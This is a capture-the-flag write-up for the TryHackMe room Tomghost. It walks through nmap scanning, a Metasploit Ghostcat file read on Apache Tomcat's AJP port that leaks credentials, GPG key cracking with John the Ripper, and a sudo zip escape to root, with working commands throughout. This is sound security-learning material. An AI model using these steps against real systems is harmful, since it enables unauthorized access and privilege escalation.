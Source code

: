 ```yaml
---
title: "Tomghost"
date: 2025-01-23
image: /assets/img/tryhackme/Tomghost/Tomghost_image.jpg
description: Writeup of the TryHackMe-CTF Tomghost
categories: [Tryhackme, Easy]
tags: [linux, enumeration, vulnerability, gpg, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Tomghost</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/r/room/tomghost">https://tryhackme.com/r/room/tomghost</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Tomghost.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.142.154
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-23 05:12 EST
Nmap scan report for 10.10.142.154
Host is up (0.039s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
8009/tcp open  ajp13
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 24.78 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,53,8009,8080 10.10.142.154
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-23 05:13 EST
Nmap scan report for 10.10.142.154
Host is up (0.040s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.96 seconds
```
from here I started with port 8080 because the `Tomcat/9.0.30` sounds intersting.

## Port 8080 Analysis
We can see a default installation of Apache Tomcat with version 9.0.30. A quick Google serach for potential vulnerabilites gave me an <a href="https://www.exploit-db.com/exploits/49039">exploit-db</a> entry. From here I started Metasploit and searched for a vulnerability called `ghostcat`.
```bash
msf6 > search ghostcat

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  auxiliary/admin/http/tomcat_ghostcat  2020-02-20       normal  Yes    Apache Tomcat AJP File Read
```
This seemed promising, so I loaded the module, set the required options and ran the exploit (I cutted the exploit output for readability):
```bash
msf6 auxiliary(admin/http/tomcat_ghostcat) > show options

Module options (auxiliary/admin/http/tomcat_ghostcat):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   FILENAME  /WEB-INF/web.xml  yes       File name
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     8009              yes       The Apache JServ Protocol (AJP) port (TCP)

msf6 auxiliary(admin/http/tomcat_ghostcat) > set rhosts 10.10.142.154
rhosts => 10.10.142.154

msf6 auxiliary(admin/http/tomcat_ghostcat) > exploit
[*] Running module against 10.10.142.154

[*** removed ***]

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:[removed]
  </description>

</web-app>

[+] 10.10.142.154:8009 - File contents save to: /home/kali/.msf4/loot/20250123051937_default_10.10.142.154_WEBINFweb.xml_229749.txt
[*] Auxiliary module execution completed
```
The output provide some credentials which we could use to connect with ssh:
```bash
$ ssh skyfuck@10.10.142.154
skyfuck@ubuntu:/home$ ls
merlin  skyfuck
skyfuck@ubuntu:/home$ cd merlin/
skyfuck@ubuntu:/home/merlin$ ls
user.txt
skyfuck@ubuntu:/home/merlin$ cat user.txt
THM{*** removed ***}
```
I was able to retrieve the user flag and found another username, so let's get his credentials

## Privilege Escalation Merlin
There where two intersting files:
```bash
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```
I tried to crack the private keys hash to decrypt the `credential.pgp`:
```bash
$ gpg2john tryhackme.asc > hashes
$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes
  Using default input encoding: UTF-8
  Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
  Cost 1 (s2k-count) is 65536 for all loaded hashes
  Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
  Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
  Will run 8 OpenMP threads
  Press 'q' or Ctrl-C to abort, almost any other key for status
  alexandru        (tryhackme)
  1g 0:00:00:00 DONE (2025-01-23 05:26) 16.66g/s 17866p/s 17866c/s 17866C/s [removed]
  Use the "--show" option to display all of the cracked passwords reliably
  Session completed.
$ gpg --import tryhackme.asc
  gpg: keybox '/home/kali/.gnupg/pubring.kbx' created
  gpg: /home/kali/.gnupg/trustdb.gpg: trustdb created
  gpg: key 8F3DA3DEC6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
  gpg: key 8F3DA3DEC6707170: secret key imported
  gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
  gpg: Total number processed: 2
  gpg:               imported: 1
  gpg:              unchanged: 1
  gpg:       secret keys read: 1
  gpg:   secret keys imported: 1
$ gpg --decrypt credential.pgp
  gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
  gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
        "tryhackme <stuxnet@tryhackme.com>"
  merlin:[removed]
```
With the credentials I was able to ssh in as merlin
```bash
$ ssh merlin@10.10.142.154
merlin@ubuntu:~$
```

## Privilege Escalation root
I started with `sudo -l` and got the following output:
```bash
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```
A quick search in <a href="https://gtfobins.github.io/gtfobins/zip/">gftobins</a> gave me all I needed:
```bash
$ TF=$(mktemp -u)
$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
# cd /root
# cat root.txt
THM{*** removed ***}
```

solved! :)
